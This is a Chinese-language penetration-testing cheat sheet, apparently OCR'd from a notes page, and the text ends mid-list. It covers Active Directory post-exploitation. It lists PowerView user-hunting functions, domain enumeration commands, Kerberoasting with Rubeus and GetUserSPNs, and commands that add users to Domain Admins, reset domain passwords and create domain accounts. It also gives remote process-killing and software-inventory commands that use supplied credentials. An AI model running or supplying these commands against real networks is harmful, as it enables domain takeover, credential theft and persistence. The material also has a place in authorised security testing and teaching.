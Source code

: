 Invoke-UserHunter：用于获取域用户登录计算机及该用户是否有本地管理权限
Invoke-ProcessHunter：查找域内所有机器进程用于找到某特定用户
Invoke-UserEventHunter：根据用户日志获取某域用户登录过哪些域机器

	- net accounts /domain 账户设置信息
	- net group "domain admins" /domain
	- net group "domain controllers" /domain
	- net group "domain users" /domain
	- net group "domain computers" /domain
	- 查看共享资料

		- net view /domain

	- nltest /domain_trusts 获取域信任列表
	- 暴力枚举域用户名
	- PowerView查询AD收集域内网络拓扑信息
	- bloodhound图表揭示域内信息与攻击路径
	- net localgroup administrators domain\domain_username /add 添加域用户为本地管理员
	- net user /domain "domain_user" "new_password" 更改域用户密码
	- net group "domain admins" username /add 添加域用户到域管理员组
	- 域控执行:net user test Tt111111 /add 创建域用户test
	- 域控执行:dsquery user/computer 查询域内用户和计算机信息
	- 查询域内存活的服务及服务器

		- setspn -T difang.com -Q */*
		- cscript GetUserSPNs.vbs
		- rubeus.exe kerberoast

- 进程服务信息

	- tasklist /svc 
	- wmic service list
	- wmic process list
	- tasklist /s machine_name /u domain\username /p "password"
	- taskkill /F /IM process_name /T 强制结束当前机器指定进程
	- taskkill /s machine_name /u domain\username /p "password" /FI "USERNAME eq domain\username" /F /IM process_name /T 强制结束远程机器上指定用户的进程
	- tasklist /m xxx.dll 查看指定dll所启动的进程
	- tasklist /fi "USERNAME ne NT AUTHORITY\SYSTEM" /fi "STATUS eq running" /v 查看非system权限的进程
	- 干掉指定进程(以高权限执行)(对杀软没啥效果):
ntsd.exe -c q -pn xxx.exe
ntsd.exe -c q -p PID
	- CS内置ps命令
	- SC命令
	- net start 查看当前已启动的服务

- 软件版本信息

	- wmic product get name,version /output:C:\windows\temp\softwares.txt
	- wmic /node:ip /user:username /password:"password" product get name,version 查看远程主机上软件版本信息

- SESSION信息

	- query user || qwinsta

- 环境变量信息
